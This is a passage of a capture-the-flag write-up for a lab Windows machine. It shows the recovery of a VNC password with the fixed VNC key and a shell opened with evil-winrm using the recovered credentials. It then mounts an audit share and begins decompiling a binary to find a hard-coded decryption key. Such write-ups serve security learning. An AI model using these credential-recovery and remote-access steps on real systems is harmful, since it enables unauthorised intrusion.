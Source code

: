     irb: warn: can't alias jobs from irb_jobs.
    >> fixedkey = "\x17\x52\x6b\x06\x23\x4e\x58\x07"
    => "\u0017Rk\u0006#NX\a"
    >> require 'rex/proto/rfb'
    => true
    >> Rex::Proto::RFB::Cipher.decrypt ["6BCF2A4B6E5ACA0F"].pack('H*'), fixedkey
    => "sT333ve2"

With this account we can connect to the box using
[evil-winrm](https://github.com/Hackplayers/evil-winrm). We quickly found the
user flag inside on our user Desktop.

    :::text
    kali@kali:~/tools/github/evil-winrm$ ruby ./evil-winrm.rb -i 10.10.10.182 -u s.smith -p sT333ve2

    Evil-WinRM shell v1.8

    Info: Establishing connection to remote endpoint

    *Evil-WinRM* PS C:\Users\s.smith\Documents> type "C:\Users\s.smith\Desktop\user.txt"
    6c624e1637cf604fec1cda8de1ad0779

# Getting root

We try to mount some other share with our `s.smith` account. `Audit` is interesting as
there is a executable binary `CascAudit.exe`, a DLL `CascCrypto.dll`, and a
SQLite Database `Audit.db`.

    :::text
    kali@kali:~$ sudo mount //10.10.10.182/Audit$ /mnt/ -o username=s.smith
    Password for s.smith@//10.10.10.182/Audit$:  ********
    kali@kali:~$ tree /mnt/
    /mnt/
    ├── CascAudit.exe
    ├── CascCrypto.dll
    ├── DB
    │   └── Audit.db
    ├── RunAudit.bat
    ├── System.Data.SQLite.dll
    ├── System.Data.SQLite.EF6.dll
    ├── x64
    │   └── SQLite.Interop.dll
    └── x86
        └── SQLite.Interop.dll

    3 directories, 8 files

We load the executable in [DNSpy](https://github.com/0xd4d/dnSpy) and look at
the code. We saw a function that use the Crypto DLL to decrypt a text providing
from the database using the key `c4scadek3y654321`.

    :::aspx-cs
    using (SQLiteConnection sqliteConnection = new SQLiteConnection("Data Source=" + MyProject.Application.CommandLineArgs[0] + ";Version=3;"))
    {
      string str = string.Empty;
      string password = string.Empty;
      string str2 = string.Empty;
      try
      {
        sqliteConnection.Open();
        using (SQLiteCommand sqliteCommand = new SQLiteCommand("SELECT * FROM LDAP", sqliteConnection))
        {
          using (SQLiteDataReader sqliteDataReader = sqliteCommand.ExecuteReader())
          {
            sqliteDataReader.Read();
            str = Conversions.ToString(sqliteDataReader["Uname"]);